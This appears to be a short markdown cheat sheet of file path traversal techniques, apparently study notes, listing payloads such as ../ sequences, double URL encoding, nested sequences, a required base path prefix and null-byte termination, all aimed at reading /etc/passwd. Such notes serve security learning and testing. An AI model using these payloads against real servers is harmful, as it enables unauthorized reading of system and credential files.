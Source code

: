 ## File path traversal, Directory traversal

### Step up multiple levels

On Unix/linux `../`

On Windows both `../` and `..\`

### Absolute path
`/etc/passwd`

### Nested traversal sequences
`....//` or `....\/`

### URL decode or double decode
`..%252f..%252f..%252fetc/passwd`

URL encoding, or even double URL encoding, the `../` characters, resulting in `%2e%2e%2f` or `%252e%252e%252f` respectively. Various non-standard encodings, such as `..%c0%af` or `..%ef%bc%8f`, may also do the trick.

### Include required base path
`/var/www/images/../../../etc/passwd`

### Null byte to terminate stirng
`../../../etc/passwd%00.png`



